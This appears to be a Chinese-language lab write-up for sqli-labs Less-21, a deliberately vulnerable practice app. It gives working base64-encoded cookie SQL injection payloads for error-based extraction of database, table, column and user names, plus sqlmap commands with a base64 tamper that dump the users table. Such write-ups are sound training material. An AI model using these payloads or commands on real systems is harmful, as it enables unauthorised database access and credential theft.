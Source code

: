 ```yaml
---
title: less21
url: https://www.yuque.com/u29002979/ep2zrx/gpk8saglgv3g7wdc
---
```


```bash
$sql="SELECT  users.username, users.password FROM users WHERE users.username=$uname and users.password=$passwd ORDER BY users.id DESC LIMIT 0,1";

$sql="SELECT * FROM users WHERE username=('$cookee') LIMIT 0,1";

echo " Your Cookie is deleted";
				setcookie('uname', base64_encode($row1['username']), time()-3600);
				header ('Location: index.php');
```

闭合方式')

成功登录后发现在Cookie处登录的信息被进行了加密，

> YOUR USER AGENT IS : Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.0.0 Safari/537.36
> YOUR IP ADDRESS IS : 192.168.31.119
> DELETE YOUR COOKIE OR WAIT FOR IT TO EXPIRE
> YOUR COOKIE : **uname = YWRtaW4=** and expires: Wed 16 Nov 2022 - 20:04:08
> Your Login name:admin
> Your Password:admin
> Your ID:8

说明在客户端登录的信息被进行了加密 &#x20;
** base64解码**YWRtaW4=为admin
可以尝试在每次注入前对payload进行加密再注入

<a name="DsPkr"></a>

# 判断字段数

`uname=admin' order by 4 -- +`
先将语句进行base64加密，再进行注入，
`uname=YWRtaW4nIG9yZGVyIGJ5IDQgLS0gKw==`

> Issue with your mysql: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'order by 4 -- +') LIMIT 0,1' at line 1

通过回显找到闭合方式为')\ <a name="mqKGp"></a>

# 报错注入

```bash
爆破数据库名
uname=admin') union select 1,2,updatexml(1,concat(0x7e,database(),0x7e),1)-- +
uname=YWRtaW4nKSB1bmlvbiBzZWxlY3QgMSwyLHVwZGF0ZXhtbCgxLGNvbmNhdCgweDdlLGRhdGFiYXNlKCksMHg3ZSksMSktLSAr
爆破数据表名
uname=admin') union select 1,2,updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema = database()),0x7e),1)-- +
uname=YWRtaW4nKSB1bmlvbiBzZWxlY3QgMSwyLHVwZGF0ZXhtbCgxLGNvbmNhdCgweDdlLChzZWxlY3QgZ3JvdXBfY29uY2F0KHRhYmxlX25hbWUpIGZyb20gaW5mb3JtYXRpb25fc2NoZW1hLnRhYmxlcyB3aGVyZSB0YWJsZV9zY2hlbWEgPSBkYXRhYmFzZSgpKSwweDdlKSwxKS0tICs=
爆破字段名
uname=admin') union select 1,2,updatexml(1,concat(0x7e,(select (column_name) from information_schema.columns where table_name='users' limit 8,1),0x7e),1)-- +
uname=YWRtaW4nKSB1bmlvbiBzZWxlY3QgMSwyLHVwZGF0ZXhtbCgxLGNvbmNhdCgweDdlLChzZWxlY3QgKGNvbHVtbl9uYW1lKSBmcm9tIGluZm9ybWF0aW9uX3NjaGVtYS5jb2x1bW5zIHdoZXJlIHRhYmxlX25hbWU9J3VzZXJzJyBsaW1pdCA4LDEpLDB4N2UpLDEpLS0gKw==
爆破字段
uname=admin') union select 1,2,updatexml(1,concat(0x7e,(select username from users limit 0,1),0x7e),1)-- +
uname=YWRtaW4nKSB1bmlvbiBzZWxlY3QgMSwyLHVwZGF0ZXhtbCgxLGNvbmNhdCgweDdlLChzZWxlY3QgdXNlcm5hbWUgZnJvbSB1c2VycyBsaW1pdCAwLDEpLDB4N2UpLDEpLS0gKw==
```

<a name="ImHDK"></a>

# sqlmap加密注入运用

将数据包头的内容重新粘贴到新的文档中，
在Cookie处标上*&#x20;
启动sqlmap,对进行加密注入的数据需要用到tamper模块

> **--tamper="base64encode.py"**

```bash
GET /less-21/index.php HTTP/1.1
Host: 192.168.31.193
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: uname=YWRtaW4%3D*
Connection: close
```

```bash
扫描
sqlmap -r 3.txt --batch --level 3 --tamper="base64encode.py"
爆破数据库
sqlmap -r 3.txt --batch --level 3 --tamper="base64encode.py" --current-db
爆破表单
sqlmap -r 3.txt --batch --level 3 --tamper="base64encode.py" -D security --tables
脱库
sqlmap -r 3.txt --batch --level 3 --tamper="base64encode.py" -D security -T users --dump
```
